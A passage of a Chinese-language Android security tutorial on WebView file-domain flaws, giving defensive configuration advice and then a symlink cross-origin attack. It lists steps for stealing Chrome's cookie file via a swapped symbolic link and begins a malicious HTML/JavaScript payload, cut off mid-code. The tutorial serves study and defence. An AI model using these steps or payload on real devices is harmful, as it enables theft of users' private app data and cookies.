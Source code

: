    
  
我们可以发现这里我们注入html后还可以去访问网站，这样我们可以在脚本中使其访问恶意的网站界面，并返回这样就可以进行恶意界面的注入  
  
   
  
安全防护:  
- 检查应用是否使用了 webview 控件；  
  
- 避免 App 内部的 WebView 被不信任的第三方调用，排查内置 WebView 的 Activity 是否被导出、必须导出的 Activity 是否会通过参数传递调起内置的WebView等；  
  
- file 域访问为非功能需求时，手动配置 setAllowFileAccessFromFileURLs 或 setAllowUniversalAccessFromFileURLs 两个 API 为 false（Android 4.1 版本之前这两个 API 默认是 true，需要显式设置为 false）；  
  
若需要开启 file 域访问，则设置 file 路径的白名单，严格控制 file 域的访问范围，具体如下：  
- 固定不变的 HTML 文件可以放在 assets 或 res 目录下，file:///android_asset 和 file:///android_res 在不开启 API 的情况下也可以访问；  
  
- 可能会更新的 HTML 文件放在 /data/data/(app) 目录下，避免被第三方替换或修改；  
  
- 对 file 域请求做白名单限制时，需要对“…/…/”特殊情况进行处理，避免白名单被绕过。  
  
####   
  
#### （3）符号链接跨源攻击  
  
  
我们回顾2020SDC中研究提到的这类漏洞，只有setAllowFileAccess为True。  
  
   
  
漏洞原理：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakBcBHw83QY98l76ALuEdibZfYfgsibziabVE44Evr2eWeaEY41ge9ia7Pyg/640?wx_fmt=png "")  
  
其攻击过程首先是操纵WebView去访问一个攻击APP自己公开出来的网页，然后这个网页执行的内容其实就是延时去读取自身。在延时读取自身的时间窗口内，这个文件悄悄被进行了替换，替换成了软链接，指向受害APP的一个私有文件，最终读取窃取其内容。  
  
   
  
具体攻击步骤:  
```
（在该命令执行前 xx.html 是不存在的；执行完这条命令之后，就生成了这个文件，并且将 Cookie 文件链接到了 xx.html 上。）
1. 把恶意的 js 代码输出到攻击应用的目录下，随机命名为 xx.html，修改该目录的权限；\
2. 修改后休眠 1s，让文件操作完成；\
3. 完成后通过系统的 Chrome 应用去打开该 xx.html 文件\
4. 等待 4s 让 Chrome 加载完成该 html，最后将该 html 删除，并且使用 ln -s 命令为 Chrome 的 Cookie 文件创建软连接，\
于是就可通过链接来访问 Chrome 的 Cookie
```  
  
  
漏洞复现：  
  
这里由于该漏洞在Android7.0版本上已经修复了，所以这里我引用大佬的博客来进行描述，大家具体可以按照步骤在Android7.0以下的版本上去复现，参考文章：Android安全检测－WebView File域同源策略绕过漏洞https://blog.csdn.net/qq_35993502/article/details/121371049（）  
  
   
  
构造HTML文件：  
```
#恶意APP的HTML,被检测APP加载此html，执行JS代码
<html>
<body></body>
<script>
var d = document;
function loadDatabase()
{
    var file_url = d.URL;
    var xmlhttp =new XMLHttpRequest();
    xmlhttp.onload=function() {
         document.body.appendChild(d.createTextNode(xmlhttp.responseText))
        alert(xmlhttp.responseText);
    }
    xmlhttp.open("GET",file_url);
    xmlhttp.send(null);
```